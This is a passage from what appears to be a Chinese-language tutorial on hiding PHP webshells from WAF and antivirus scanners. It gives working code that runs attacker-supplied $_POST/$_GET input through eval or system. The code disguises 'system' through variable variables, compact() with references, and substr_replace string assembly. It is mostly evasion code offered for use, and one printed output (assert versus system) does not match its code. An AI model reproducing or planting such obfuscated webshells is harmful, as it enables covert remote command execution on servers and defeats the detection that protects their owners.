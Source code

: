 那要怎么利用这个特性呢？如下：

```bash
$f ='hello';
$$f = $_POST['aabyss'];
eval($hello);   //eval($_POST['aabyss']);
```

### 5.2 数组 + 变量引用混淆

上文提到，可以通过 `compact` 创建一个包含变量名和它们的值的数组

那就可以用 `compact` 创建一个包含恶意函数和内容的数组，再引用出来拼接成语句即可

```bash
$z = "system";                        //配合其他姿势，将 system 高危函数传给 z
$zhixin  = &$z;
$event = 'hahaha';

$result = compact("event", "zhixin"); //通过 compact 创建数组
$z = 'wahaha';                        //我将变量 z 进行修改为'wahaha'

$f = $result['zhixin'];
$f($_POST['aabyss']);                  //system($_POST['aabyss']);
```

根据 5.1 学到的内容，可以发现传入数组后，函数内容被替换是不会影响数组中的内容的

于是先用变量 `zhixin` 来引用变量 `z` 然后通过 `compact` 创建为数组，接下来再将变量 `z` 附上新的内容 `wahaha` ，传统的 WAF 追踪变量的内容时候，就会让查杀引擎误以为数组中的值不是 `system` 而是 `wahaha` ，从而达到 WebShell 免杀

## 6# 数组绕过

先将高危函数部分存储在数组中，等到时机成熟后提取出来进行拼接

### 6.1 一维数组

```bash
$f = substr_replace("systxx","em",4);         //system（高危函数）
$z = array($array = array('a'=>$f($_GET['aabyss'])));
var_dump($z);
```

数组内容如下：

```bash
Array ( [0] => Array ( [a] => assert($_GET['aabyss']) ) )
```

### 6.2 二维数组

```bash
$f = substr_replace("systxx","em",4);          //system（高危函数）
$z = array($arrayName = ($arrayName = ($arrayName = array('a' => $f($_POST['aabyss'])))));
var_dump($z);
```
